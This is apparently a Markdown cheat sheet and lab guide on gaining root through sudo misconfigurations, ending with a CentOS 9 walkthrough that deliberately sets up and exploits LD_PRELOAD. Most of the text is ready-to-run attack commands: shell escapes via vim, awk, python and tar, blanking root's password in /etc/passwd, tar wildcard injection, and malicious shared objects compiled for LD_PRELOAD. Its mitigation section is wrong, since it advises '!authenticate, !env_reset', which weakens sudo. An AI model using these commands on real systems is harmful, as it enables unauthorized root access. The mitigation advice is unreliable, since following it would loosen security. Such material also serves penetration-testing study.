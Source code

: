 **Elevating Privilege through `sudo`**

Privilege escalation through `sudo` misconfigurations occurs when a low-privileged user can execute commands with root privileges because Administrator has done incorrect `sudoers` settings and given unintended privilege to a normal user.

**To check what commands you can run with `sudo`, use:**
```
sudo -l
```
If the output shows commands that can be run as root (`(ALL) NOPASSWD:`) without a password, it may be exploitable.

**If `sudo -l` shows:**
```
(root) NOPASSWD: /bin/su
```
**You can escalate privileges with:**
```
sudo su
```

**If `sudo -l` allows:**
```
(root) NOPASSWD: /bin/bash
```
**You can get a root shell:**
```
sudo -i
```
**or**
```
sudo /bin/bash
```

**If `sudo` allows executing an unrestricted binary like `vim`, `awk`, or `python`, you can escalate privileges:**
```
sudo vim -c ':!sh'
sudo awk 'BEGIN {system("/bin/sh")}'
sudo less /etc/passwd
!/bin/sh
sudo perl -e 'exec "/bin/sh";'
sudo python3 -c 'import os; os.system("/bin/sh")'
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
More exploitable binaries can be found at **[GTFOBins](https://gtfobins.github.io/)**.

**If `sudo` allows running `nano`, `vi`, or `vim` on system files:**
```
(root) NOPASSWD: /usr/bin/nano /etc/passwd
```
**You can edit `/etc/passwd` to remove the root password:**
```
sudo nano /etc/passwd
```
**Modify the root entry:**
```
root:x:0:0:root:/root:/bin/bash
```
**to:**
```
root::0:0:root:/root:/bin/bash
```
**Save and exit, then switch to root without a password:**
```
su root
```

**If `sudo -l` allows executing a script:**
```
(root) NOPASSWD: /path/to/script.sh
```
**Modify the script:**
```
echo "/bin/bash" >> /path/to/script.sh
sudo /path/to/script.sh
```
**If you're unable to modify the script directly, you can review it to identify any imported modules or packages that might be customizable.**
For Example, if it is a python script then look for any imported package,
Once you identify the modules in use, assess whether it's possible to make changes to them. 
If you're able to modify any of the imported packages, you can introduce adjustments by adding simple lines of code within those packages, 
depending on your access level.
If it's possible to make changes, you could add a simple line of code which will edit the permissions of the '/etc/passwd' file.
```
os.system('chmod 777 /etc/passwd')
```

**If `sudo` allows running commands but does not clear environment variables:**
```
echo 'int main() { setgid(0); setuid(0); system("/bin/sh"); }' > /tmp/root.c
gcc -fPIC -shared -o /tmp/root.so /tmp/root.c -nostartfiles
sudo LD_PRELOAD=/tmp/root.so /bin/bash
```

**If `sudo` allows commands like:**
```
(root) NOPASSWD: /bin/tar * 
```
**You can execute arbitrary commands:**
```
echo "id" > /tmp/exploit.sh
chmod +x /tmp/exploit.sh
echo "sh 0<&2 1>&2" > /tmp/--checkpoint-action=exec=sh
echo "sh 0<&2 1>&2" > /tmp/--checkpoint=1
sudo tar -cf /dev/null /tmp/*
```

**To mitigate risks:
Restrict `sudoers` settings:**
  ```
  visudo
  ```
**Ensure:**
  ```
  Defaults !authenticate, !env_reset, secure_path
  ```
**Remove unnecessary `sudo` permissions:**
  ```
  sudo visudo
  ```
 **Remove lines like:**
  ```
  ALL=(ALL) NOPASSWD: ALL
  ```
And follow least privilege principles to prevent exploitation.


# LD_PRELOAD Exploitation and Privilege Escalation on CentOS 9

## Step 1: Install Apache
Run the following command to install Apache:
```bash
yum install httpd -y
```

## Step 2: Start and Enable Apache Service
Start the Apache service and enable it to run on boot:
```bash
systemctl start httpd
systemctl enable httpd
```

## Step 3: Create a User for Apache Management
Create a new user named `site-admin`:
```bash
useradd -m site-admin -s /bin/bash
```

## Step 4: Grant sudo Permissions to `site-admin`
Edit the sudoers file:
```bash
nano /etc/sudoers
```
Add the following line to grant `site-admin` permission to run Apache without a password:
```bash
site-admin  ALL=(ALL)   NOPASSWD: /usr/sbin/httpd
```

## Step 5: Set Password for `site-admin`
Use the `chpasswd` command to set the password:
```bash
echo 'site-admin:123' | chpasswd
```

## Step 6: Configuring sudoers for LD_PRELOAD Persistence
Add the following line to `/etc/sudoers` to keep the `LD_PRELOAD` environment variable:
```bash
Defaults env_keep += "LD_PRELOAD"
```

## Step 7: SSH into the Machine and Test Apache
SSH into the server as `site-admin`:
```bash
ssh site-admin@192.168.1.10
```
Run Apache commands to verify permissions:
```bash
sudo /usr/sbin/httpd
sudo /usr/sbin/httpd -v
sudo /usr/sbin/httpd -T
```

## Step 8: Exploiting LD_PRELOAD for Privilege Escalation
### Create a Malicious Shared Object (`evil.c`)
Create and save the following C code as `evil.c`:
```c
#include <stdio.h>
#include <stdlib.h>

void _init() {
    setuid(0);
    setgid(0);
    system("chmod 777 /etc/passwd");
}
```

### Compile and Generate Shared Object
Compile the malicious shared object:
```bash
gcc -fPIC -shared -o /tmp/env.so /tmp/evil.c -nostartfiles
```

### Execute the Exploit
Run the following command to exploit `LD_PRELOAD`:
```bash
sudo LD_PRELOAD=/tmp/env.so /usr/sbin/httpd
```

## Step 9: Locate Shared Object Files
To find shared object files on the system, use:
```bash
find /lib /lib64 /usr/lib /usr/lib64 -name "*.so*"
```

---
This guide covers Apache installation, user management, sudo permissions, and an LD_PRELOAD privilege escalation exploit on CentOS 9. Ensure that security measures are in place to prevent unauthorized privilege escalation.



